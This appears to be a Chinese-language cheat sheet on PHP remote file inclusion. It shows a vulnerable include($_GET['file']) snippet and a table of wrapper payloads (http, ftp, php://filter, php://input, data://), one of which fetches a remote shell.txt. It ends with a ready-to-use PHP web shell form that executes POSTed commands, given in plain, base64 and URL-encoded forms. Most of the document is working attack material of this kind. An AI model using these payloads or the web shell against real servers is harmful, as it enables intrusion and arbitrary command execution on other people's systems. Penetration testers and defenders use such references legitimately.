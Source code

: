 ## 远程包含

条件: `allow_url_include=On`

```
<?php
$file = $_GET['file'];
include($file);
?>
```

协议 | 附加条件 | php | 样例 (file=)
---- | ---- | ----- | ----
http[s] | allow_url_fopen=On | | http://ip/shell.txt
ftp | allow_url_fopen=On | | ftp://ip/shell.txt
php://filter |  | >=5.0 | php://filter/convert.base64-encode/resource=index.php
php://input |  | | php://input  POST: <?php echo 111;?>
data:// |  | >=5.2 | data://text/plain;base64,MTE=

> “zlib://”和“ogg://”等方式绕过 远程文件包含(RFI)

### data://

Streams can be used with functions such as file_get_contents, fopen, include and require etc. and this is where the danger of Remote and Local file inclusion occur

> php>=5.2

#### 样例

```
# base64 decode is 'I love PHP\n'
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');

// URL + Base64 , 隐藏特殊字符 '/'
index.php?file=data://text/plain;base64,PD8gcGhwaW5mbygpOyBkaWUoKTs%2fPg==
```


#### 可交互shell

```
# GUI command shell.

# PHP Payload
<form action="<?=$_SERVER['REQUEST_URI']?>" method="POST"><input type="text" name="x" value="<?=htmlentities($_POST['x'])?>"><input type="submit" value="cmd"></form><pre><? echo `{$_POST['x']}`; ?></pre><? die(); ?>

# Base64 encoded payload

PGZvcm0gYWN0aW9uPSI8Pz0kX1NFUlZFUlsnUkVRVUVTVF9VUkknXT8+IiBtZXRob2Q9IlBPU1QiPjxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ4IiB2YWx1ZT0iPD89aHRtbGVudGl0aWVzKCRfUE9TVFsneCddKT8+Ij48aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iY21kIj48L2Zvcm0+PHByZT48PyAKZWNobyBgeyRfUE9TVFsneCddfWA7ID8+PC9wcmU+PD8gZGllKCk7ID8+Cgo=

# Base64 + URL encoded payload
PGZvcm0gYWN0aW9uPSI8Pz0kX1NFUlZFUlsnUkVRVUVTVF9VUkknXT8%2BIiBtZXRob2Q9IlBPU1QiPjxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ4IiB2YWx1ZT0iPD89aHRtbGVudGl0aWVzKCRfUE9TVFsneCddKT82BIj48aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iY21kIj48L2Zvcm0%2BPHByZT48PyAKZWNobyBgeyRfUE9TVFsneCddfWA7ID8%2BPC9wcmU%2BPD8gZGllKCk7ID8%2BCgo%3D
```


[5]: http://php.net/manual/zh/features.file-upload.post-method.php